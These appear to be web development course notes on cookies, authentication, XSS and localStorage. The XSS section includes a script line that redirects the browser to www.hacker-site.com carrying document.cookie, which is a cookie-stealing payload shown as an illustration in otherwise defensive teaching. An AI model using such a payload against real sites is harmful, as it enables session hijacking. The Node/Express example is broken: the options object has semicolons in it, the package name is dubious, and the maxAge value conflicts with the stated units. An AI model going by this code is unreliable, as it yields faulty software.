


# Cookies, Authentication and Security - Unit 11

## Objectives

- The role of cookies in the web browser.
- Their application to authentication.
- Their implications for security.
- Alternative mechanism called localStorage.

## Cookies

- Cookies are stored on the browser.
- Commonly used to persist authentication, but can also do other things.

### What is a Cookie?

- A small string (4 kb max) stored in the internet browser. A cookie is defined on a domain.
  - Each domain has its own 'cookie storage'.
  - Browsers can store 50 cookies per domain.
  - Browsers can store at least 3000 cookies total.

If a domain has a cookie, it is automatically sent with every HTTP request to the server.
- When sent is is placed in a header called "Cookie".
- AJAX calls include the cookie.

### How is a cookie created?

The server sends a "Set-Cookie" header in a HTTP response. The cookie has a name and a value.

```
HTTP / 1.0 200 OK
Set-Cookie: lu=Rg3vHJZnehYLjVg7qi3bZjzq; Expires=...
```

Once the cookie exists on the client, it's sent back to the server with every HTTP request.

### What does it look like?

Multiple cookies in an http request are serialized as semicolon-separated key-value pairs:

```
"user-id=5234; intercom-id=14t1jq2tg2; _gat=1;"
```

Cookies store information that keeps track of who you are. The above is an example of 3 cookies.

### Domain & Expiration

A cookie includes built-in information as well:

```
"user-id=5234; intercom-id=14t1jq2tg2; _gat=1; Path=/; Max-Age=604800; Expires=Wed, 25 March 2016 06:15:37 GMT; Secure; HttpOnly;"
```

### Using cookies for authentication



### Cookies in node

- Set in milliseconds rather than seconds.


```JavaScript
const cookieParse = require('cookie-parse');

// this allows you to access the req.body
app.use(express.urlencoded({ extended: true }));

app.use(cookieParse());
// Now you can access via req.cookies

const userId = req.cookies.userId;

res.cookie('userId', userId, {
  maxAge: 3600;
  httpOnly: true;
})
```

## Cookies & Security

- Cross-Site Scripting (XSS) is where a hacker site finds a way to inject a harmful <script> tag within a vulnerable site's html page.
- This can be done either from the moment of the generation of the html page or using JavaScript DOM manipulation to insert <script>

```JavaScript
<script>
  window.location = 'www.hacker-site.com/?cookie=' + document.cookie;
</script>
```

## Preventing XSS

- Encode (aka escape) your variable/generated output html on the server!

```JavaScript
<html>
Latest comment:
&lt;script&gt;...&lt/script&gt
</html>
```

### localStorage

The localStorage property allows you to access a localStorage object.

```JavaScript
localStorage.setItem('key', 'value');
```

### Cookies vs Local Storage vs Session Storage



## Storing Sessions in Cookies

- Easy and automated
- Sent on every request
  - Even when unnecessary
- But only to your own server (no cross-origin)
- Limited to 4kb per domain
- Built in security.

## Storing Sessions in localStorage

- Must be created, expired and sent manually.
...

## Summary

If your server needs it or it is secure use cookies

### Questions
